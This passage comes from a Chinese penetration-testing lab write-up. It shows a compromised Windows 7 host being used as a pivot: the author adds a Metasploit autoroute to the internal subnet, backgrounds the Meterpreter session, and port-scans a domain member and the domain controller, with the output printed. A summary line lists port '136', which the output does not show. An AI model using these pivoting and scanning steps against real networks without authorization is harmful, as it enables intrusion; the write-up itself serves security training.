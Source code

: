      Wireshark 3.0.4 32-bit                                          3.0.4
     Wireshark 3.0.4 32-bit                                          3.0.4
    ```
    

### 内网端口扫描

1. 把`win7`当跳板，则需要添加路由
    
    ```python
    #添加一条路由
    run autoroute -s 192.168.52.0/24  # 在kali上添加一条通向内网的路由
    #查看路由添加情况
    run autoroute -p
    ```
    
2. 然后将当前会话放入后台，存为`session 1` ，后面可以通过`sessions`命令指定`1`回到当前会话
    
    ```python
    meterpreter > background
    [*] Backgrounding session 1... 
    ```
    
3. 使用辅助模块里边的端口扫描，来扫描域里边的两台主机
    - 首先扫描域成员的端口
        
        ```python
        msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 
        msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.52.141
        msf6 auxiliary(scanner/portscan/tcp) > set ports 1-500,3389,3306
        msf6 auxiliary(scanner/portscan/tcp) > run
        [+] 192.168.52.141:       - 192.168.52.141:21 - TCP OPEN
        [+] 192.168.52.141:       - 192.168.52.141:135 - TCP OPEN
        [+] 192.168.52.141:       - 192.168.52.141:139 - TCP OPEN
        [+] 192.168.52.141:       - 192.168.52.141:445 - TCP OPEN
        [*] 192.168.52.141:       - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
        ```
        
        开启了`21`，`135`，`139`，`445`
        
    - 扫描域控
        
        ```python
        msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.168.52.138
        [+] 192.168.52.138:       - 192.168.52.138:135 - TCP OPEN
        [+] 192.168.52.138:       - 192.168.52.138:80 - TCP OPEN
        [+] 192.168.52.138:       - 192.168.52.138:445 - TCP OPEN
        [+] 192.168.52.138:       - 192.168.52.138:139 - TCP OPEN
        [*] 192.168.52.138:       - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
        ```
        
        存在 `80`，`136`，`139`，`445` 
        
    - 竟然还存在`80`端口，我们可以通过之前获得的`RDP` 在`win7`里面访问，是默认页面
        